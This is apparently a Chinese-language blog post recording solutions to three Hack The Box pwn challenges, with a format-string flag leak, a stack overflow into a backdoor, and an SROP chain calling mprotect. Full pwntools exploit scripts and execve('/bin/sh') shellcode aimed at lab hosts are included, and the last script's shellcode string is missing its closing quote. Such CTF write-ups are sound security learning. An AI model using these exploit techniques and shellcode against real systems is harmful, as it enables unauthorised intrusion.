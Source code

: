 # HTB PWN 刷题记录

> 闲来无事找点国外的题玩一玩hh

## racecar

> 32位保护全开的程序，源程序写的挺花里胡哨的hh

![](https://pic.imgdb.cn/item/62847d700947543129104c82.png)

明显的格式化字符串

````python
# -*- coding: utf-8 -*-
from pwn import *
context(os='linux',arch='amd64')
context.log_level = 'debug'


flag = ""

for i in range(0x10):
    
    p = process("./racecar")
    # p = remote("134.209.178.167","30114")
    global flag
    p.sendlineafter("Name:","2")
    p.sendlineafter("Nickname:","2")
    p.sendlineafter(">","2")
    p.sendlineafter(">","2")
    p.sendlineafter(">","1")
    payload = "%"+str(i+12)+"$p"
    print flag
    p.sendlineafter(">",payload)
    p.recvuntil("orld to know this:")
    p.recvline()
    data = int(p.recvline(),16)
    for i in range(4):
        flag +=  chr(int(data % 0x100))
        data = data/0x100
    p.close()

````

## You know 0xDiablos

> 32位，保护全关

裸的栈溢出，但是后门函数做出了一些限制，加两个参数就行

![](https://pic.imgdb.cn/item/6284879309475431291e1068.png)

````python
# -*- coding: utf-8 -*-
from pwn import *
context(os='linux',arch='amd64')
context.log_level = 'debug'
# libc = ELF('./libc.so')
elf = ELF("./vuln")

local = 0

if local:
    p = process("./vuln")        
else:
    p = remote("138.68.183.64","30035")


def debug(p,cmd=0):
    if local:
        gdb.attach(p)
        if cmd:
            pause()
    else:
        pass
  

debug(p)
payload = "a"*(0xb8+4)+p32(0x80491E2)+p32(0)+p32(0xDEADBEEF)+p32(0xC0DED00D)+p32(0)
p.sendlineafter("0xDiablos:",payload)


print p.recvuntil("}")
# debug(p)
p.interactive()
````

## Sick ROP

> 64位程序，只开启NX保护

很有意思的一道题，简单一看就是一个明显的栈溢出，但是还是学到不少

SROP调用mprotect，最后往代码段填短shellcode执行

题目伪代码不长可以直接放出来

````c
__int64 __fastcall read(int a1, int a2, int a3, int a4, int a5, int a6, char *buf, size_t count)
{
  return sys_read(0, buf, count);
}
__int64 __fastcall write(int a1, int a2, int a3, int a4, int a5, int a6, const char *buf, size_t count)
{
  return sys_write(1u, buf, count);
}
__int64 __fastcall vuln(int a1, int a2, int a3, int a4, int a5, int a6)
{
  size_t v6; // rax
  int v7; // edx
  int v8; // ecx
  int v9; // r8d
  int v10; // r9d
  const char *v11; // r10
  char v13[32]; // [rsp+0h] [rbp-20h] BYREF

  v6 = read(a1, a2, a3, a4, a5, a6, v13, 0x300uLL);
  return write(a1, a2, v7, v8, v9, v10, v11, v6);
}
void __noreturn start()
{
  while ( 1 )
    vuln();
}
````

这道题需要注意是的并没有链接libc，同时能用的gadget也不多，漏洞点很明显就是输入的地方存在栈溢出，GDB调试一下就能得到距离rbp的偏移是0x20，距离返回地址的偏移是0x28

同时这题能够找到`syscall; ret`的gadget

能够调用syscall的话第一反应就是SROP，但是rax是作为read函数的返回值好控制但是为了溢出到返回地址难以控制成较小的系统调用号，参考了wp之后是发现利用控制返回地址的返回地址来实现

简单来说就是第一次read溢出覆盖返回地址为vuln函数的地址，在控制这个返回地址（也就是vuln函数）的返回地址是syscall，利用第二次read（也就是返回到vuln函数）来控制rax的值调用syscall，直接看payload更清晰：

```python
payload = "a"*(0x20+8)+p64(vuln)+p64(syscall_ret)
```

这样第二次输入时我们输入0xe个字符加上最后的'\n'，我们调用SROP所需要的 `sys_rt_sigreturn`函数的系统调用号0xF就可以填入rax。

````python
payload = "a"*(0xf-1)
````

而调用`sys_rt_sigreturn`函数所需要的frame结构体参数也只需要填在第一个payload后面即可，这样第一次的payload修改为：

````python
payload = "a"*(0x20+8)+p64(vuln)+p64(syscall_ret)+str(frame)
````

同时由于我们难以拿到栈地址，也就是没法利用`execve`函数来拿shell（拿不到binsh字符串的地址）

所以我们考虑使用mprotect来修改权限同时执行shellcode

这样frame的结构体的内容也就是：

````python
frame = SigreturnFrame(kernel="amd64")
frame.rsp = 0x4010d8
frame.rax = 10 # mprotect
frame.rdi = 0x0000000000400000                  
frame.rsi = 0x4000                              
frame.rdx = 7
frame.rip = syscall_ret
````

也就是调用`mprotect(0x0000000000400000,0x4000,7)`来修改程序段的权限为rwx

需要注意的是，这里的SigreturnFrame执行完之后会调用ret，所以我们需要伪造栈顶，也就是rsp，即我们需要让[rsp]是我们需要执行的地址。

由于我们需要输入shellcode，同时已经修改了rdi和rsi寄存器，接下来我们需要程序重新运行到vuln函数处，所以需要在内存中寻找一个地址来做栈顶，同时该地址中保存着vuln函数的地址。

这里可以利用gdb的serach命令查找，由于vuln函数的地址是： 0x00000000040102E，所以我们使用

`pwndbg> search -8 0x00000000040102E `

效果如下：

```bash
pwndbg> search -8 0x00000000040102E
sick_rop        0x4010d8 adc    byte ptr cs:[rax], al
```

也就是在0x4010d8处保存着地址0x00000000040102E

所以frame结构体里修改rsp=0x4010d8

调用完成之后就再一次回到了我们的vuln函数，同时由于我们对寄存器的修改，再次调用read操作时会往0x4010b8处填写内容，所以我们只要再填写一段短一点的shellcode，之后0x28字节后溢出覆盖返回地址到0x4010b8执行shellcode就可以getshell

完整exp：

````python
# -*- coding: utf-8 -*-
from pwn import *
context(os='linux',arch='amd64')
context.log_level = 'debug'
# libc = ELF('./libc.so')
elf = ELF("./sick_rop ")

local = 0

if local:
    p = process("./sick_rop")        
else:
    p = remote("157.245.33.77","31656")


def debug(p,cmd=0):
    if local:
        gdb.attach(p)
        if cmd:
            pause()
    else:
        pass
  
leave_ret = 0x40104d
syscall_ret = 0x401014
vuln = 0x00000000040102E

frame = SigreturnFrame(kernel="amd64")
frame.rsp = 0x4010d8
frame.rax = 10 # mprotect
frame.rdi = 0x0000000000400000                  
frame.rsi = 0x4000                              
frame.rdx = 7
frame.rip = syscall_ret

debug(p,1)
payload = "a"*(0x20+8)+p64(vuln)+p64(syscall_ret)+str(frame)
p.sendline(payload)

payload = "a"*(0xf-1)
p.sendline(payload)

shellcode = '\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05
p.sendline(shellcode.ljust(0x28,"\x00")+p64(0x4010b8))
p.recv()
debug(p,1)
p.interactive()
````

